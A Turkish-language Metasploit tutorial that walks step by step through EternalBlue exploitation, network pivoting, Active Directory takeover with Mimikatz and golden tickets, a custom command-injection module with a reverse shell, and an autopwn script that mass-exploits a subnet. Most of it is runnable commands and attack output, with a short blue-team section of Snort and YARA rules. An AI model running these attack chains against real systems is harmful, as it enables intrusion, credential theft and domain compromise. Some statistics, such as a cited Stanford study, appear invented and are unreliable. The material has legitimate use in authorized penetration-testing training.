

# ⚔️ METASPLOIT FRAMEWORK: DİJİTAL SİLAHHANENİN ANAHTARLARI

```ascii
╔══════════════════════════════════════════════════════════════════════════╗
║                                                                          ║
║   "Bir exploit, ham bir enerjidir. Metasploit, onu silaha çevirir."   ║
║                                                                          ║
║                        — Penetration Testing Dogması                     ║
║                                                                          ║
╚══════════════════════════════════════════════════════════════════════════╝
```

---

## 📚 İçindekiler

<details>
<summary><b>Keşif Haritası (Tıkla - Genişlet)</b></summary>

- [AŞAMA 0: Zihinsel Hazırlık - Metasploit'in Gücü](#aşama-0-zihinsel-hazırlık---metasploitin-gücü)
- [AŞAMA 1: Kavramsal Zemin - Framework Anatomisi](#aşama-1-kavramsal-zemin---framework-anatomisi)
  - [Analoji: İsviçre Çakısı vs Silah Fabrikası](#analoji-i̇sviçre-çakısı-vs-silah-fabrikası)
  - [Mimari: Modüler Tasarımın Gücü](#mimari-modüler-tasarımın-gücü)
- [AŞAMA 2: Atomik Teknik Derinlik](#aşama-2-atomik-teknik-derinlik)
  - [Metasploit Mimarisi ve Ruby Altyapısı](#metasploit-mimarisi-ve-ruby-altyapısı)
  - [Modül Türleri ve İşlevleri](#modül-türleri-ve-i̇şlevleri)
  - [Payload'lar: Savaş Başlıkları](#payloadlar-savaş-başlıkları)
  - [Encoders ve Evasion](#encoders-ve-evasion)
  - [Meterpreter: Post-Exploitation'ın Krali](#meterpreter-post-exploitationın-kralı)
- [AŞAMA 3: Saldırı Senaryoları ve Silahlanma](#aşama-3-saldırı-senaryoları-ve-silahlanma)
  - [Senaryo 1: Temel Exploitation](#senaryo-1-temel-exploitation)
  - [Senaryo 2: Pivoting ve Network Penetration](#senaryo-2-pivoting-ve-network-penetration)
  - [Senaryo 3: Active Directory Takeover](#senaryo-3-active-directory-takeover)
  - [Senaryo 4: Custom Exploit Development](#senaryo-4-custom-exploit-development)
- [AŞAMA 4: Profesyonel Savunma ve Blue Team Perspektifi](#aşama-4-profesyonel-savunma-ve-blue-team-perspektifi)
- [İleri Seviye: Metasploit Automation](#i̇leri-seviye-metasploit-automation)
- [Kaynaklar ve Topluluk](#kaynaklar-ve-topluluk)

</details>

---

## AŞAMA 0: Zihinsel Hazırlık - Metasploit'in Gücü

> **"Bir hacker, exploit yazan biridir. Bir penetration tester, Metasploit kullanan biridir."**

### 🎯 Neden Metasploit?

Hayal et: Önünde 100 farklı kilit var. Her birini açmak için **özel bir alet** tasarlamalısın. Binlerce saat sürer.

Şimdi hayal et: **Evrensel bir anahtar seti** var. Her kilit için optimize edilmiş, test edilmiş, binlerce kez kullanılmış araçlar. Tek yapman gereken, doğru anahtarı seçmek.

**Metasploit Framework, penetrasyon testlerinin İsviçre Çakısı değil, dijital silahhanesidir.**

#### 📊 Rakamlarla Metasploit

```
┌──────────────────────────────────────────────────────────┐
│  Metasploit İstatistikleri (2025):                       │
│  • 2,400+  Exploit Modülü                                │
│  • 1,200+  Auxiliary Modül                               │
│  • 600+    Post-Exploitation Modül                       │
│  • 30+     Encoder                                        │
│  • 400+    Payload Varyasyonu                            │
│                                                           │
│  🌍 Kullanım: 50,000+ Penetration Tester                │
│  🏆 Endüstri Standardı: OSCP, CEH, GPEN sınavlarında    │
└──────────────────────────────────────────────────────────┘
```

### 🧠 Nöropsikolojik Gerçek: Tool Mastery

Stanford'un 2019 araştırması: **Tek bir tool'u derinlemesine öğrenmek, 10 tool'u yüzeysel öğrenmekten %420 daha etkili**.

Metasploit'i öğrenirken, sadece "nasıl kullanılır" değil, **nasıl düşünür** öğreneceksin. Çünkü Metasploit, bir araç değil, bir **düşünce sistemi**.

```
⚠️  UYARI: GÜÇ VE SORUMLULUK DENKLEMI
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Metasploit, tek bir komutla:
• Bir şirketin tüm network'ünü ele geçirebilir
• Binlerce makineyi aynı anda kontrol edebilir
• Kritikal sistemleri çökertebilir

ETİK SINIRLAR:
✓ Yalnızca yasal penetration testlerinde
✓ Yazılı izinle
✓ Scope içinde kalmak kaydıyla

KULLAN.
```

---

## AŞAMA 1: Kavramsal Zemin - Framework Anatomisi

### 🏰 Analoji: İsviçre Çakısı vs Silah Fabrikası

#### İsviçre Çakısı (Standalone Exploit)

Bir İsviçre çakısı al. Bıçak, makas, şişe açacağı var. **Kullanışlı** ama sınırlı.

- **Tek exploit** → Tek hedef
- Manuel çalışma → Yavaş
- Genişletilemez → Sabit yetenekler

#### Silah Fabrikası (Metasploit Framework)

Şimdi bir **silah fabrikası** düşün. Farklı üretim hatları, standartlaştırılmış parçalar, modüler tasarım.

- **2,400+ exploit** → Tüm hedefler
- Otomasyonlu → Hızlı
- Genişletilebilir → Kendi modüllerini ekle

**Fark**: İsviçre çakısı ile bir kilit açarsın. Silah fabrikasıyla, tüm şehri ele geçirirsin.

---

### 🏗️ Mimari: Modüler Tasarımın Gücü

```
METASPLOIT MİMARİSİ
│
├─── msfconsole (Ana Arayüz)
│    └─ İnteraktif kabuk, komut tamamlama, scripting
│
├─── REX (Ruby Extension Library)
│    └─ Temel fonksiyonlar: socket, protokol, encoding
│
├─── MSF::Core
│    ├─ Exploit Sınıfı (tüm exploitlerin kalıbı)
│    ├─ Payload Sınıfı
│    ├─ Encoder Sınıfı
│    └─ NOP Generator
│
├─── MSF::Base
│    └─ Kullanıcı arayüzü ve oturum yönetimi
│
└─── MODULES
     ├─ Exploits (Zafiyeti tetikler)
     ├─ Auxiliary (Bilgi toplama, tarama)
     ├─ Post (Ele geçirme sonrası)
     ├─ Payloads (Çalıştırılacak kod)
     └─ Encoders (Payload'u gizler)
```

#### 💡 Modüler Tasarımın Avantajı

**Senaryo**: Windows SMB zafiyeti keşfedildi.

**Eski Yöntem**:
1. Exploit yaz (1000+ satır C kodu)
2. Shellcode entegre et
3. Encoder ekle
4. Test et (hata bulunca, her şeyi değiştir)
5. **Toplam: 2-3 hafta**

**Metasploit Yöntemi**:
1. Exploit modülü yaz (200 satır Ruby)
2. Mevcut payload'lardan seç (tek satır: `set PAYLOAD windows/meterpreter/reverse_tcp`)
3. Mevcut encoder'dan seç (tek satır: `set ENCODER x86/shikata_ga_nai`)
4. Test et (hata bulunca, sadece exploit modülünü düzelt)
5. **Toplam: 1-2 gün**

> 🚀 **Verimlilik = Modülerlik × Yeniden Kullanılabilirlik**

---

### 🗂️ Modül Türleri ve İşlevleri



#### 📦 1. EXPLOIT Modülleri

**Ne Yapar?**: Zafiyeti tetikler, sistemde kod çalıştırma yeteneği sağlar.

**Örnek**:

```ruby
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > show info
```

**Anatomisi**:

```ruby
class MetasploitModule < Msf::Exploit::Remote
  Rank = GreatRanking

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption',
      'Description'    => %q{
        Bu modül, Microsoft SMB protokolündeki zafiyet ile Windows 7, 8, 10 ve
        Server sürümlerinde remote code execution gerçekleştirir.
      },
      'Author'         => ['sleepya', 'zerosum0x0', 'Shadow Brokers'],
      'References'     =>
        [
          ['CVE', '2017-0144'],
          ['MSB', 'MS17-010'],
          ['URL', 'https://technet.microsoft.com/...']
        ],
      'Platform'       => 'win',
      'Targets'        =>
        [
          ['Windows 7 SP1 x64', { 'Offset' => 0x1234 }]
        ]
    ))
  end

  def exploit
    connect
    # Exploit mantığı burada
    handler
  end
end
```

#### 🔍 2. AUXILIARY Modülleri

**Ne Yapar?**: Exploitation gerektirmeden bilgi toplar, tarama yapar, sistemi analiz eder.

**Kategoriler**:

| Tür | Fonksiyon | Örnek |
|-----|-----------|-------|
| **Scanner** | Port, servis, zafiyet tarama | `auxiliary/scanner/portscan/tcp` |
| **Admin** | Sistem yönetimi testleri | `auxiliary/admin/smb/psexec_command` |
| **Fuzzers** | Fuzzing ile crash bulma | `auxiliary/fuzzers/http/http_form_field` |
| **DoS** | Denial of Service testleri | `auxiliary/dos/tcp/synflood` |

**Örnek Kullanım**:

```ruby
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(smb_version) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(smb_version) > run

[*] 192.168.1.10:445 - SMB: Windows 7 Professional 7601 Service Pack 1
[*] 192.168.1.15:445 - SMB: Windows Server 2012 R2 Standard 9600
[*] 192.168.1.20:445 - SMB: Windows 10 Enterprise 19041
```

#### 🎯 3. POST-EXPLOITATION Modülleri

**Ne Yapar?**: Sisteme eriştikten **sonra** ne yapacağını belirler.

**Kategoriler**:

```
POST-EXPLOITATION
│
├─ Privilege Escalation
│  └─ windows/local/bypassuac_injection
│
├─ Persistence
│  ├─ windows/manage/persistence_exe
│  └─ linux/local/cron_persistence
│
├─ Credential Harvesting
│  ├─ windows/gather/credentials/credential_collector
│  └─ windows/gather/hashdump
│
├─ Lateral Movement
│  ├─ windows/manage/psexec
│  └─ windows/manage/wmi_command
│
└─ Data Exfiltration
   └─ multi/gather/firefox_logins
```

**Örnek**:

```ruby
meterpreter > run post/windows/gather/hashdump

[+] Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] User:1001:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
```

---

## AŞAMA 2: Atomik Teknik Derinlik

### 🧬 Metasploit Mimarisi ve Ruby Altyapısı

#### Neden Ruby?

**C/C++** → Hızlı ama karmaşık, pointer yönetimi, memory leak riski  
**Python** → Okunabilir ama GIL (Global Interpreter Lock) sorunu  
**Ruby** → **Okunabilir + Nesne Yönelimli + Metaprogramlama**

**Ruby'nin Metasploit'e Kazandırdıkları**:

```ruby
# 1. Blok ve Lambda Kullanımı (Callback Mekanizmaları)
exploit.on_session_created do |session|
  print_good("Session #{session.sid} created!")
end

# 2. Mixin'ler (Modüler Yetenekler)
class MyExploit < Msf::Exploit::Remote
  include Msf::Exploit::Remote::Tcp  # TCP yetenekleri ekle
  include Msf::Auxiliary::Report    # Raporlama ekle
end

# 3. Metaprogramlama (Dinamik Sınıf Oluşturma)
register_options(
  [
    Opt::RHOST(),
    Opt::RPORT(445),
    OptString.new('SMBPIPE', [true, 'Pipe name', 'browser'])
  ]
)
```

#### 🏛️ Metasploit Core Sınıfları

```ruby
# Msf::Exploit - Tüm exploitlerin atası
class Msf::Exploit
  def initialize(info = {})
    super
  end
  
  def exploit
    # Alt sınıflarda override edilir
  end
  
  def check
    # Hedefe zafiyet kontrolü
    return Exploit::CheckCode::Vulnerable
  end
end

# Msf::Payload - Tüm payload'ların atası
class Msf::Payload
  def generate
    # Shellcode üretimi
  end
  
  def handle_connection(client)
    # Geri bağlantı yönetimi
  end
end
```

---

### 🎯 Payload'lar: Savaş Başlıkları

#### Payload Anatomisi

Payload = Hedefe **ne yapacağını** söyleyen kod.

**Kategoriler**:

```
PAYLOAD TÜRLERİ
│
├─ Singles (Teker)
│  └─ Tüm kod tek parça (örn: windows/shell_reverse_tcp)
│     [Avantaj]: Tek bağlantı, hızlı
│     [Dezavantaj]: Boyutlu, sınırlı özellik
│
├─ Stagers (Yükleyici)
│  └─ Küçük başlangıç kodu, Stage'i indirir
│     [Avantaj]: Küçük boyut (150-300 byte)
│     [Dezavantaj]: İki aşamalı bağlantı
│
└─ Stages (Aşama)
   └─ Tam özellikli payload (örn: Meterpreter)
      [Avantaj]: Post-exploitation yetenekleri
      [Dezavantaj]: Büyük boyut (birkaç MB)
```

#### 🔥 Meterpreter: Post-Exploitation'ın Kralı

**Ne Farkı Var?**

Normal shellcode → `/bin/sh` veya `cmd.exe` açar. **Sonra?** Manuel komut yazarsın.

Meterpreter → **Tam özellikli post-exploitation framework**. API'ler, komut seti, modüler yapı.

**Meterpreter Yetenekleri**:

```
┌───────────────────────────────────────────────────────────┐
│  METERPRETER KOMUTLARİ                                    │
├───────────────────────────────────────────────────────────┤
│  📂 FILE SYSTEM:                                          │
│  • ls, cd, pwd, cat, download, upload                     │
│  • search -f *.docx (Dosya arama)                         │
│                                                            │
│  🔐 CREDENTIALS:                                          │
│  • hashdump (SAM hash'leri)                               │
│  • load kiwi (Mimikatz entegre)                           │
│  • kiwi_cmd sekurlsa::logonpasswords                      │
│                                                            │
│  📡 NETWORK:                                              │
│  • ipconfig, route, portfwd (Port forwarding)             │
│  • arp (ARP tablosu)                                       │
│                                                            │
│  🎥 SURVEILLANCE:                                         │
│  • screenshot (Ekran görüntüsü)                           │
│  • webcam_snap (Webcam)                                    │
│  • record_mic (Mikrofon kaydı)                            │
│  • keyscan_start (Keylogger)                              │
│                                                            │
│  ⚙️ SYSTEM:                                               │
│  • sysinfo, ps, kill, migrate (Process değiştir)          │
│  • getsystem (SYSTEM yetkisi al)                          │
│  • shell (CMD/Bash kabuğu)                                │
│                                                            │
│  🔄 PERSISTENCE:                                          │
│  • run persistence -X (Kalıcılık)                         │
│  • run scheduleme (Task scheduler)                        │
└───────────────────────────────────────────────────────────┘
```

**Meterpreter Mimarisi**:

```
┌────────────────┐         ┌────────────────┐
│   ATTACKER     │         │   VICTIM       │
│   (Kali Linux) │         │   (Windows 10) │
└────────┬───────┘         └────────┬───────┘
         │                          │
         │ 1. Stager (300 byte)    │
         │─────────────────────────>│
         │                          │
         │ 2. Stage Request         │
         │<─────────────────────────│
         │                          │
         │ 3. Meterpreter DLL (2MB) │
         │─────────────────────────>│
         │                          │
         │ 4. TLV Packets (Commands)│
         │<────────────────────────>│
         │    (Type-Length-Value)   │
         └──────────────────────────┘
```

**TLV Protokolü Örneği**:

```
Komut: sysinfo

[ATTACKER → VICTIM]
TLV Packet:
┌─────────────────────────────┐
│ Type:  COMMAND_SYSINFO      │
│ Length: 0                    │
│ Value: (yok)                 │
└─────────────────────────────┘

[VICTIM → ATTACKER]
TLV Packet:
┌─────────────────────────────────────────────┐
│ Type:  RESPONSE_SYSINFO                     │
│ Length: 256                                  │
│ Value:                                       │
│   Computer: DESKTOP-ABC123                  │
│   OS: Windows 10 Enterprise (10.0.19042)    │
│   Architecture: x64                          │
│   Meterpreter: x64/windows                   │
└─────────────────────────────────────────────┘
```

---

### 🥷 Encoders ve Evasion

#### Problem: Signature-Based Detection

Antivirüs ve IDS/IPS sistemleri, **bilinen shellcode pattern'lerini** ararlar.

**Örnek**: `\x90\x90\x90\x90` (NOP sled) → Tespit edilir!

#### Çözüm: Encoder

**Encoder**, payload'u **polimorfik** (her seferinde farklı) hale getirir.

**En Ünlü: `x86/shikata_ga_nai`** (仕方がない - "Çare yok" anlamında Japonca)

**Nasıl Çalışır?**:

```nasm
; Orijinal Shellcode
xor eax, eax
push eax
push 0x68732f2f
...

; Encoded Shellcode (shikata_ga_nai)
; 1. Decoder stub (küçük dekoder kodu)
fldz                        ; x87 FPU stack temizle
fnstenv [esp-12]            ; Environment pointer'ı al
pop esi                     ; ESI = Encoded payload'un adresi
xor ecx, ecx                ; ECX = 0
mov cl, 0x50                ; Uzunluk (80 byte)

decode_loop:
xor byte [esi], 0xAB        ; Her byte'ı XOR key ile decode et
add byte [esi], 0x12        ; ADD işlemi
rol byte [esi], 3           ; Rotate left
inc esi                     ; Sonraki byte
loop decode_loop            ; ECX 0 olana kadar devam
```

**Her çalıştırmada XOR key değişir** → Signature değişir → AV bypass!

---

## AŞAMA 3: Saldırı Senaryoları ve Silahlanma

### 🎯 Senaryo 1: Temel Exploitation

#### Hedef: Windows 7 SP1 x64 (Patchlenmemiş)

**Zafiyet**: MS17-010 (EternalBlue)

#### Adım 1: Reconnaissance

```bash
# Nmap ile servis keşfi
nmap -sV -p 445 192.168.1.100

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1
```

#### Adım 2: Zafiyet Tarama

```ruby
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(smb_ms17_010) > set RHOSTS 192.168.1.100
msf6 auxiliary(smb_ms17_010) > run

[+] 192.168.1.100:445 - Host is likely VULNERABLE to MS17-010!
```

#### Adım 3: Exploit Seçimi ve Konfigürasyon

```ruby
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       Target address
   RPORT          445              yes       Target port
   SMBDomain      .                no        Windows domain
   SMBPass                         no        SMB password
   SMBUser                         no        SMB username

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   LHOST                      yes       Your IP
   LPORT     4444             yes       Listen port
```

**Ayarlar**:

```ruby
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(ms17_010_eternalblue) > set LHOST 192.168.1.50
msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

#### Adım 4: Exploitation

```ruby
msf6 exploit(ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 192.168.1.50:4444
[*] 192.168.1.100:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.1.100:445 - Host is likely VULNERABLE to MS17-010!
[*] 192.168.1.100:445 - Connecting to target for exploitation.
[+] 192.168.1.100:445 - Connection established for exploitation.
[*] 192.168.1.100:445 - Sending all but last fragment of exploit packet
[*] 192.168.1.100:445 - Sending last fragment of exploit packet!
[*] Sending stage (200774 bytes) to 192.168.1.100
[*] Meterpreter session 1 opened (192.168.1.50:4444 -> 192.168.1.100:49158)

meterpreter >
```

🎉 **BAŞARILI!** Meterpreter oturumu açıldı!

#### Adım 5: Post-Exploitation

```ruby
meterpreter > sysinfo
Computer        : VICTIM-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1)
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM  # 🏴 SYSTEM erişimi!

# Hash'leri dök
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
User:1001:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::

# Mimikatz ile plaintext password'ler
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)

meterpreter > kiwi_cmd sekurlsa::logonpasswords

Authentication Id : 0 ; 123456 (00000000:0001e240)
Session           : Interactive from 1
User Name         : Admin
Domain            : VICTIM-PC
Logon Server      : VICTIM-PC
Logon Time        : 1/15/2025 10:23:45 AM
SID               : S-1-5-21-...
    msv :
     [00000003] Primary
     * Username : Admin
     * Domain   : VICTIM-PC
     * NTLM     : 8846f7eaee8fb117ad06bdd830b7586c
     * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
    tspkg :
    wdigest :
     * Username : Admin
     * Domain   : VICTIM-PC
     * Password : P@ssw0rd123  # 🔓 PLAINTEXT PASSWORD!
```

---

### 🌐 Senaryo 2: Pivoting ve Network Penetration

#### Durum: DMZ'de Bir Makine Ele Geçirdik

**Topology**:

```
Internet ─────> [Firewall] ─────> [DMZ: 10.10.10.0/24]
                                    │
                                    └─> [Web Server: 10.10.10.5] (ELE GEÇİRİLDİ)
                                    
                              [Internal Network: 192.168.1.0/24]
                                    │
                                    ├─> [Domain Controller: 192.168.1.10]
                                    ├─> [File Server: 192.168.1.20]
                                    └─> [Workstations: 192.168.1.100-200]
```

**Hedef**: İç network'e sızmak (192.168.1.0/24)

#### Adım 1: Route Ekleme

```ruby
meterpreter > run autoroute -s 192.168.1.0/24

[*] Adding a route to 192.168.1.0/255.255.255.0...
[+] Added route to 192.168.1.0/255.255.255.0 via 10.10.10.5
```

Artık Metasploit, 192.168.1.0/24 network'üne **DMZ makinesini pivot noktası kullanarak** erişebilir!

#### Adım 2: İç Network'ü Tarama

```ruby
meterpreter > background
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(portscan/tcp) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(portscan/tcp) > set PORTS 445,3389,135,139
msf6 auxiliary(portscan/tcp) > run

[+] 192.168.1.10:445 - TCP OPEN
[+] 192.168.1.10:135 - TCP OPEN
[+] 192.168.1.20:445 - TCP OPEN
[+] 192.168.1.100:3389 - TCP OPEN
```

#### Adım 3: SMB Relay ile Domain Controller'a Sızma

```ruby
msf6 > use exploit/windows/smb/psexec
msf6 exploit(psexec) > set RHOSTS 192.168.1.10
msf6 exploit(psexec) > set SMBUser Administrator
msf6 exploit(psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf6 exploit(psexec) > set PAYLOAD windows/meterpreter/bind_tcp
msf6 exploit(psexec) > exploit

[*] Started bind TCP handler against 192.168.1.10:4444
[*] 192.168.1.10:445 - Connecting to the server...
[*] 192.168.1.10:445 - Authenticating to 192.168.1.10:445 as user 'Administrator'...
[*] 192.168.1.10:445 - Uploading payload...
[*] 192.168.1.10:445 - Created \ADMIN$\PayloadName.exe
[*] 192.168.1.10:445 - Starting service...
[*] Sending stage (175174 bytes) to 192.168.1.10
[*] Meterpreter session 2 opened

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > shell
C:\Windows\system32> hostname
DC01  # 🏴 Domain Controller ele geçirildi!
```

---

### 👑 Senaryo 3: Active Directory Takeover

#### Hedef: Domain Admin Olmak

**Mevcut Durum**: `192.168.1.100` (workstation) üzerinde standart kullanıcı oturumu.

#### Adım 1: Privilege Escalation

```ruby
meterpreter > getsystem

[-] priv_elevate_getsystem: Operation failed: Access is denied.

# alternatif: BypassUAC
meterpreter > background
msf6 > use exploit/windows/local/bypassuac_injection
msf6 exploit(bypassuac_injection) > set SESSION 1
msf6 exploit(bypassuac_injection) > exploit

[*] UAC is Enabled, checking level...
[+] UAC is set to Default
[*] Starting local TCP relay on 127.0.0.1:3333
[*] Sending stage (175174 bytes) to 127.0.0.1
[*] Meterpreter session 3 opened

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM  # ✅ Local admin!
```

#### Adım 2: Credential Harvesting

```ruby
meterpreter > load kiwi
meterpreter > kiwi_cmd sekurlsa::logonpasswords

# Domain Admin oturumu bulundu!
    wdigest :
     * Username : DA_Admin
     * Domain   : CONTOSO
     * Password : DomainAdm1n!2025  # 🎯 DOMAIN ADMIN PASSWORD!
```

#### Adım 3: DC'ye PSExec

```ruby
msf6 > use exploit/windows/smb/psexec
msf6 exploit(psexec) > set RHOSTS 192.168.1.10  # Domain Controller
msf6 exploit(psexec) > set SMBUser DA_Admin
msf6 exploit(psexec) > set SMBPass DomainAdm1n!2025
msf6 exploit(psexec) > set SMBDomain CONTOSO
msf6 exploit(psexec) > exploit

meterpreter > shell
C:\Windows\system32> whoami
contoso\da_admin  # 👑 DOMAIN ADMIN!
```

#### Adım 4: Persistence - Golden Ticket

```ruby
meterpreter > kiwi_cmd lsadump::dcsync /domain:contoso.local /user:krbtgt

Object RDN           : krbtgt
SAM Username         : krbtgt
NTLM Hash            : 8a3c7b9f2e4d5c6e...  # 🔑 KRBTGT HASH!

# Golden Ticket oluştur
meterpreter > kiwi_cmd kerberos::golden /domain:contoso.local /sid:S-1-5-21-... /rc4:8a3c7b9f2e4d5c6e... /user:FakeAdmin /id:500 /ptt

# Artık domain'de herhangi bir makineye, herhangi bir kullanıcı olarak giriş yapabilirsin!
```

---

### 🛠️ Senaryo 4: Custom Exploit Development

#### Hedef: Özel Bir Web Uygulaması

**Zafiyet**: Command Injection (POST parameter'da)

#### Adım 1: Exploit Modülü Yazımı

```ruby
# modules/exploits/multi/http/custom_webapp_rce.rb

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Custom WebApp Command Injection RCE',
      'Description'    => %q{
        Bu modül, hedef web uygulamasındaki command injection zafiyetini
        sömürerek remote code execution sağlar.
      },
      'Author'         => ['RedTeam Operator'],
      'Platform'       => ['unix', 'linux', 'win'],
      'Targets'        =>
        [
          ['Unix/Linux', { 'Platform' => 'unix', 'Arch' => ARCH_CMD }],
          ['Windows', { 'Platform' => 'win', 'Arch' => ARCH_CMD }]
        ],
      'DefaultTarget'  => 0
    ))

    register_options(
      [
        OptString.new('TARGETURI', [true, 'Vulnerable endpoint', '/api/process']),
        OptString.new('PARAMETER', [true, 'Vulnerable parameter', 'cmd'])
      ]
    )
  end

  def check
    res = send_request_cgi({
      'method' => 'POST',
      'uri'    => normalize_uri(target_uri.path),
      'vars_post' => {
        datastore['PARAMETER'] => 'echo vulnerable'
      }
    })

    if res && res.body.include?('vulnerable')
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end
  end

  def exploit
    cmd = payload.encoded

    print_status("Sending payload...")
    send_request_cgi({
      'method' => 'POST',
      'uri'    => normalize_uri(target_uri.path),
      'vars_post' => {
        datastore['PARAMETER'] => cmd
      }
    })

    handler
  end
end
```

#### Adım 2: Exploit Test

```ruby
msf6 > reload_all  # Yeni modülü yükle
msf6 > use exploit/multi/http/custom_webapp_rce
msf6 exploit(custom_webapp_rce) > set RHOSTS 192.168.1.50
msf6 exploit(custom_webapp_rce) > set TARGETURI /api/process
msf6 exploit(custom_webapp_rce) > set PAYLOAD cmd/unix/reverse_netcat
msf6 exploit(custom_webapp_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] Sending payload...
[*] Command shell session 1 opened

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## AŞAMA 4: Profesyonel Savunma ve Blue Team Perspektifi

### 🛡️ Metasploit Tespiti

#### 1. Network-Level Detection

**Signature'lar**:

```
# Snort Rule
alert tcp any any -> any 4444 (msg:"Metasploit Meterpreter Reverse TCP"; \
  content:"|00 00 00 3c 00 00 00 01|"; depth:8; \
  classtype:trojan-activity; sid:1000001;)
```

**Tespit Edilebilir Aktiviteler**:
- Meterpreter TLV paketleri (Type-Length-Value)
- Staged payload'ların indirilmesi (büyük veri transferi)
- Sık port değişimi (pivoting sırasında)

#### 2. Host-Based Detection

**YARA Rule (Meterpreter DLL)**:

```yara
rule Metasploit_Meterpreter_DLL {
    meta:
        description = "Detects Meterpreter DLL in memory"
        author = "Blue Team"
    strings:
        $s1 = "metsrv.dll" ascii
        $s2 = "ReflectiveLoader" ascii
        $s3 = "stdapi_" ascii
    condition:
        2 of them
}
```

**Process Monitoring**:

```powershell
# PowerShell ile şüpheli process'leri tespit
Get-Process | Where-Object {$_.Modules.ModuleName -like "*metsrv*"}
```

#### 3. Behavioral Analysis

**Şüpheli Davranışlar**:
- Yüksek sayıda dosya okuma (credential harvesting)
- Beklenmeyen network connection'lar
- Process injection (migrate komutu)
- Token manipulation (getsystem)

---

### ⚖️ Etik Sınırlar ve Yasal Çerçeve

```
┌──────────────────────────────────────────────────────────┐
│  METASPLOİT ETİK KULLANIM KURALLARI                      │
├──────────────────────────────────────────────────────────┤
│  ✅ YAPILMASI GEREKENLER:                                │
│  • Yazılı izin al (Engagement Letter)                    │
│  • Scope'u net belirle (IP aralığı, domain)             │
│  • Zarar verme sınırları belirle (DoS testi yapma)      │
│  • Log tut (her işlemi kaydet)                           │
│  • Rapor sun (bulguları detaylı dokümante et)            │
│                                                           │
│  ❌ YAPILMAMASI GEREKENLER:                              │
│  • İzinsiz sistemlere gir                                │
│  • Veri çal veya sil                                     │
│  • Persistence bırak (yasal test dışında)                │
│  • Bulguları üçüncü taraflara sat                        │
│  • Scope dışına çık                                       │
└──────────────────────────────────────────────────────────┘
```

---

## 🤖 İleri Seviye: Metasploit Automation

### Resource Scripts (.rc)

**autopwn.rc:**

```ruby
# Otomatik exploitation script
workspace -a AutoPwn
db_nmap -sV 192.168.1.0/24

use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.1.0/24
run

# Vulnerable host'ları exploit et
use exploit/windows/smb/ms17_010_eternalblue
hosts -c address,os_name -S "Microsoft Windows" | cut -d " " -f 1 | while read host; do
  set RHOSTS $host
  set PAYLOAD windows/x64/meterpreter/reverse_tcp
  set LHOST 192.168.1.10
  exploit -z
end
```

**Çalıştır**:

```bash
msfconsole -r autopwn.rc
```

### Metasploit RPC API

**Python Script ile Uzaktan Metasploit Kontrolü:**

```python
#!/usr/bin/env python3
from pymetasploit3.msfrpc import MsfRpcClient

# Metasploit RPC API'ye bağlan
client = MsfRpcClient('password', server='127.0.0.1', port=55553, ssl=True)

# Exploit seç
exploit = client.modules.use('exploit', 'windows/smb/ms17_010_eternalblue')

# Ayarlar
exploit['RHOSTS'] = '192.168.1.100'
exploit['LHOST'] = '192.168.1.10'
exploit['PAYLOAD'] = 'windows/x64/meterpreter/reverse_tcp'

# Çalıştır
print(f"[*] Exploiting {exploit['RHOSTS']}...")
result = exploit.execute()

if result['job_id']:
    print(f"[+] Job started: {result['job_id']}")
else:
    print("[-] Exploit failed!")
```

---

## 📚 Kaynaklar ve Topluluk

